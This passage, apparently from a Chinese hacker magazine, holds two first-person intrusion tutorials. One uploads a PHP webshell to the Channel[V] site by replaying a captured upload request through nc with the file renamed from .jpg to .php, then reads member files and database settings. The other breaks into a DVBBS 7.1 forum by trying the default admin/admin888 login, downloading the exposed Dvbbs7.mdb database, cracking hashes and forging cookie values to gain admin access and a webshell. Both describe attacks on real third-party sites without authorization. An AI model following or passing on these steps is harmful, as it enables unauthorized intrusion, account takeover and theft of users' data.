



我屁颠屁颠地去看我的小相册，看到边上那个红叉没有？！那就是我们的 PHP 小马了！HOHO，在“缩图”上点击右键，选择属性查看它的 URL 地址（图10），啊啊，还是保持我们的 PHP 后缀哦。但是我们可以看到前面的地址和当前 IE 中的 URL 地址是不一样的，看来 Channel[V] 把所有上传文件都放在了一个单独的域名下，好像还是一个单独的服务器呢！现在我们把 URL 输入到 IE 的地址栏中，Enter 回车！哈哈，我们的 PHP 小马成功解析了（图11）！RAID？这不是磁盘阵列吗？不是太懂，再来看看权限：当前进程用户名 testv，不错，还行，不是很高，但也可以执行命令。现在我们可以更改所有会员（包括 VJ）的信息和文件了！比如这个是李晨的照片（图12），看看它的地址，啊啊，就是我们所控制的主机上的文件哦！再找找看还有没有什么可以利用的东西。HOHO，找到一个叫 connect.inc 的文件，一看就是数据库的连接文件了！而且我发现他们存放 PHP 文件的服务器 IP 和数据库服务器 IP 是不一样的，那么肯定支持远程连接了！

还有一种方法，那就是抓包，就是有些麻烦，但是效果确实很好的。我们打开 WSockExpert，找到刚才上传的那个 IE 窗口，开始监听。回到 IE 窗口中，选择一个内容是 ASP 木马但是后缀是 JPG 的文件，点击上传，成功报错。这个时候我们再回到 WSockExpert 中暂停监听，找找我们上传时的数据包（图13），把它们复制到一个 TXT 文本文档中，把其中我们上传时的文件名 ***.jpg 改成 ***.php，再次保存。然后我们把 NC 和这个 TXT 文本文件放在一个文件夹下（为了方便），打开 CMD 进入其目录，执行 `nc -vv 网站的IP < 我们保存的TXT文本文件的文件名`，Enter 回车。数据会哗地一下回显了（图14），这时我们再去看看我们的相册，是不是也有了那个红叉！它就是我们刚才使用 nc 上传的 PHP 小马！前面提到的跨站限制也可以使用这种方法来突破，要注意数据包的长度一定要更改。









```text
Warning: imagecreatefrom...(): not a valid image resource...
Warning: Division by zero ...
Warning: imagesx(): supplied argument is not a valid Image resource ...
Warning: imagecopyresampled(): supplied argument is not a valid Image resource ...
<script language=javascript>alert('操作成功');window.location='member_xc.php'</script>
```

（文章中涉及到的工具 WSockExpert 已经收录于光盘中）

我拿出牛族的 MySQL 连接器连接，但是它好像限制了连接 IP，总是提示连接错误！再看看主机里还有没有别的吧，在其他目录中我发现了他们关于登录测试 V 音乐世界的一些资料，我就不公布了！对这个系统的检测到此为止，当然我们也可以拿下这台主机！

再说说刚才关于上传地方的另一种方法，如果我们刚才用的那个方法不行的话，可以来试一下下边的方法。如果我们把网页都保存下来，把 Action 的地址也填补完整，相关的本地限制也都改掉后，点击上传没反应或者是错误，就要试试这种方法了。

## 黑客术语小补习

#### 什么是 IP 地址？

为方便 Internet 上的众多主机在通信的时候能够互相识别，Internet 上的每一台主机都分配有一个唯一的 32 位地址，该地址称为 IP 地址，也称作网络地址。IP 地址由 4 个数值部分组成，每个数值部分可取值 0～255，部分之间用圆点符号分开，如（202.114.88.10）。事实上，这种 IP 称之为 IPv4，表示是 IP 的第 4 代版本。不久的将来我们将过渡到 IPv6，那时的 IP 地址将有新的变化。

## Cookies 欺骗——助我进动网后台

三问布衣 / (W.S.T.)



某日，十分无聊地在本地信息港里闲逛，突然碰到一动网论坛。“动”网漏洞多，所以我喜欢。通常碰到动网论坛我都要试一下。这个是新版本，DVBBS 7.1 SP1。看了看论坛里的注册人数才几十个人，思考了 20 秒，输入账号 Admin，密码 Admin888，点击登录，提示错误了。再来，在 IE 的地址栏里输入 `/Data/`，通过返回可以得知此目录存在，然后再在其后加入 `Dvbbs7.mdb`，提示要我选择一个保存还是打开，怎么会这么简单！？再看看数据库的大小！注：有的论坛管理员会忘记删除或者放一个假的数据库。这个数据库大小比较正常，直接下载下来。难道就这么简单地搞定了？当然不是！我使用 Domain3.5 打开数据库，可以轻松得到管理员前台和后台的 MD5 加密值，而且我发现它们之间是不一样的！操起 IE 登录 MD5 密码破解网站，却都遗憾地没有破解出来。再看看数据库的 Dv_Log 表，果然皇天不负有心人，找到了一个明文密码。但是这个密码是前台的还是后台的呢？我又来到 MD5 密码破解网站，选择加密 MD5，结果出来了，明文密码是后台的！不错不错，这个论坛的 SHELL 我要定了！可能有菜鸟要问了，前台密码还不知道呢，怎么能进后台呢？我没有前台密码也照样进对方的后台！对！就是 Cookies 欺骗。

先说说动网的验证机制，它主要的验证对象是 Dv_User 表中的每个用户的 TruePassWord 值（图1）。这个东西是系统自动分配的，好像每次登录都不一样。系统正是凭借这个东西来验证你的身份，当然还有别的东西，但是这个东西最重要，因为别的东西我们没有获得数据库也可以改，但这个东西是保存在数据库中的。即使你没有获得后台的明文密码，也可以利用这个东西在前台登录，冒充管理员进行操作，站长们要小心了！







首先打开 Domain3.5，输入论坛的 URL 地址，成功打开。注册一个 ID，然后点退出登录，然后再登录。这个地方要注意了，一定要选择保存 Cookies 哦（图2），要在一天以上。现在我们可以看到 Cookies 一栏中的信息了吧！我们就是来更改它，只要把 UserId、UserClass、UserName、PassWord 这几个更改成 Dv_User 中管理员的信息就 OK 了（图3）。我们点修改，程序会自动刷新，如果刷不出来我们就再点！这个时候我们就可以看到我们的登录用户就是管理员的账号了（图4）。等什么？还不快点管理呀，输入管理员的后台登录密码，成功登录后台页面（图5），现在我们可以顺利地获得 WebShell 了！





图5

